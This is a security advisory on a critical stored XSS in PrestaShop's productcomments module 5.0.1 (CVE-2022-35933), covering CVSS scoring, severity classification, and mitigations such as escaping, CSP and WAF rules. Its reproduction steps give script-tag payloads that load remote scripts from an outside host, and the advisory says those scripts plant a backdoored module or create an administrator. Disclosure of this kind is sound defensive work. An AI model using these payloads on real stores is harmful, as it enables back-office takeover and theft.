 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for PrestaShop"
categories: modules
author:
- 202 ecommerce
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.6)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-02-07
* **Platform**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.6)

Vulnerability by design applied on PrestaShop qualified on productcomments module suffering of [CVE-2022-35933](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-35933)

## Description

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the PrestaShop CMS. 

To highlight the criticality of XSS and give us the means to mitigate their effects, [TouchWeb](https://www.touchweb.fr) conducted its research based on the vulnerability of the [productcomments module](https://github.com/PrestaShop/productcomments/security/advisories/GHSA-prrh-qvhf-x788), which in version 5.0.1 has a stored XSS.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is too many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.5+/10 since it unlocks design's vulnerabilities (users's administration / modules's administration / any admin's controllers)

For all others XSS including Type 0/1 and Type 2 F2F/B2B/B2F, you can preserve a low to medium gravity score specificaly on PrestaShop. Nevertheless, be warn that on other solutions, XSS of type 1 can be critical (like Wordpress which suffer of a predictable backoffice's link).

### Module presentation

The productcomments module allows, as an anonymous or customer, to post comments associated with products from the front office of the store. Three fields are present:
* title
* Author
* Content

The author field, after a refactoring, is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* author entered: <em>my name</em>
* result: my name will be displayed in bold in the back office in the moderation table of comments.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for PrestaShop 1.7+ (we tested for 1.7.7.8).
* Script A allows injecting a blockwishlist module containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator in the specific case where it is disabled.

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed PrestaShop 1.7.7.8.
* We installed the [productcomments module zip](https://github.com/PrestaShop/productcomments/releases/download/v5.0.1/productcomments.zip).
* (Optional) To facilitate adding comments without a customer account, we activated the anonymous comments option.
* Enter `<script src="//1j.vc/ps_a.js">` or `<script src="//1j.vc/ps_b.js">` as "author" and complete the other fields.
* Return to the back office on the module configuration page.


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags - Smarty and Twig provide auto-escape filters : 
> Smarty: `{$value.comment|escape:'html':'UTF-8'}`  Twig: `{\{value.comment|e\}}`(without backslashes)
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files) or being called in XHR transactions (Ajax).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.
